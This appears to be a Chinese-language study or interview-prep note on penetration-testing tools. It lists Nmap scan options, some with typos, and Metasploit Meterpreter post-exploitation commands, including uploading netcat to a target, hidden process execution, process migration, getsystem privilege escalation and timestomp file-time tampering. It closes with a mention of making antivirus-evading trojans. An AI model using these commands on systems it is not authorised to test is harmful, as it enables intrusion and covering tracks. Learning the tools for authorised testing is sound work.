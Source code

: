

## 25-说说Nmap

```shell
# Nmap 是一款网络扫描和主机检测的工具
# 常用的参数
	nmap www.baidu.com　　  			  #扫描单一的一个主机）
	nmap 192.168.1.154 　　　			　#扫描单一的一个主机）
	nmap 192.168.1.1/24　　			 　#扫描整个子网
	nmap 192.168.1.154 192.168.1.156    #扫描多个目标）
	nmap 192.168.1.1-100 　　　　   	  #扫描IP地址为192.168.1.1-192.168.1.100内的所有主机
	nmap -iL target.txt　　　　			  #扫描批量ip地址
	nmap 192.168.1.1/24 -exclude 192.168.1.1 	 #扫描除过某一个 ip 外的所有子网主机
	nmap 192.168.1.1/24 -exclude file xxx.txt  	 #xxx.txt 中的文件将会从扫描的主机中排除
	nmap -p80,21,23 192.168.1.154　　				#扫描特定主机上的 80、21、23 端口
	nmap -sS 192.168.1.1						 #半开放扫描比较喜欢用的一个
	namap --script==vuln						 #扫漏洞，比较重的一个
	namp -oN										 # 保存扫描结果
	
	基本这些就够用了，如果有大佬觉得还有更好的使用方式欢迎补充啊，跪谢
```



## 26-说说MSF

```shell
# 常用命令
	background 					#让meterpreter处于后台模式
	sessions -i number 			#与会话进行交互，number表示第n个session
	quit 						#退出会话
	shell 						#获得命令行
	cat c:\\boot.ini 			#查看文件内容
	getwd 						#查看当前工作目录 work directory
	upload /root/Desktop/netcat.exe c:\\ 				# 上传文件到目标机上
	download 0xfa.txt /root/Desktop/ 					# 下载文件到本机上
	edit c:\\boot.ini 									# 编辑文件
	search -d d:\\www -f web.config 					#search 文件
	ps 													#查看当前活跃进程
	migrate pid 									#将Meterpreter会话移植到进程数位pid的进程中
	execute -H -i -f cmd.exe 						#创建新进程cmd.exe，-H不可见，-i交互
	getpid 											#获取当前进程的pid
	kill pid 										#杀死进程
	getuid 											#查看权限
	sysinfo 										#查看目标机系统信息，如机器名，操作系统等
	getsystem 										#提权操作
	timestompc:/a.doc -c "10/27/2015 14:22:11" 		#修改文件的创建时间
# 迁移进程
	1-meterpreter > ps
	2-自行选择PID
	3-meterpreter > migrate pid
	
还可以做免杀木马等等。。。。MSF 蛮强大的
```
